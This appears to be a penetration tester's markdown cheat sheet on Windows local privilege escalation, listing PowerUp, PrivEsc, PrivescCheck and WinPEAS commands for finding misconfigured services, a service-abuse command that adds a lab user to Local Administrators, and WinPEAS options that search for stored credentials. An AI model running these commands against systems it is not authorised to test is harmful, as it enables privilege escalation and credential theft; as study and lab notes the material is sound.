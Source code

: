 # Local Privilege Escalation

- [PowerUP](#powerup)
    + [Find Vulnerable Services](#find-vulnerable-services)
    + [Abuse Found Vulnerable Services](#abuse-found-vulnerable-services)
- [PrivEsc](#privesc)
    + [Find Vulnerable Services](#find-vulnerable-services-1)
- [PrivescCheck](#privesccheck)
- [WinPEAS](#winpeas)

### PowerUP
---
```powershell
C:> . .\PowerUp.ps1
```
##### Find Vulnerable Services

- Run All Checks
```powershell
C:> Invoke-AllChecks
```
- Get Services with Unquoted Paths and Spaces in Name
```powershell
C:> Get-ServiceUnquoted -vebose
```
- Get Services where Current User can Write to the Binary Path or Change Arguments to Binary
```powershell
C:> Get-ModifiableServiceFile
```
- Get Services that Current User can Modify Configuration
```powershell
C:> Get-ModifiableService
```
##### Abuse Found Vulnerable Services
In the three cmdlets, a `AbuseFunction` field is returned with the command to run to gain privileges. To make the user member of Local Administrators, can use:
```powershell
C:> Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx'
```
This will make user member of the Admins group. Just need to relog session and that's it.

### PrivEsc
---
```powershell
C:> Invoke-PrivEsc
```
- Groups   : Groups of our interest when checking ACLs.
- Mode     : Mode to use - full or lhf (default).
- Extended : Switch enables lookups that may last for several minutes.
- 
##### Find Vulnerable Services
- Run All Checks
```powershell
C:> Invoke-PrivEsc
```
- Full Check for Groups
```powershell
C:> Invoke-Privesc -Groups 'Users,Everyone,"Authenticated Users"' -Mode full -Extended
```
### PrivescCheck
---
Syntax:
```powerview
Invoke-PrivescCheck [[-Report] <string>] [[-Format] {TXT | HTML | CSV | XML}] [-Extended] [-Experimental] [-Force] [-Audit] [-Silent]  [<CommonParameters>]
```
Usage:
```powershell
C:> . PrivescCheck.ps1
C:> Invoke-PrivescCheck
```
  
### WinPEAS
---
WinPEAS is a binary to enumerate possible paths to escalate privileges locally
```powershell
        quiet                Do not print banner
        notcolor             Don't use ansi colors (all white)
        domain               Enumerate domain information
        systeminfo           Search system information
        userinfo             Search user information`
        processinfo          Search processes information
        servicesinfo         Search services information
        applicationsinfo     Search installed applications information
        networkinfo          Search network information
        windowscreds         Search windows credentials
        browserinfo          Search browser information
        filesinfo            Search files that can contains credentials
        eventsinfo           Display interesting events information
        wait                 Wait for user input between checks
        debug                Display debugging information - memory usage, method execution time
        log[=logfile]        Log all output to file defined as logfile, or to "out.txt" if not specified

        Additional checks (slower):
        -lolbas              Run additional LOLBAS check
        -linpeas=[url]       Run additional linpeas.sh check for default WSL distribution, optionally provide custom linpeas.sh URL
```

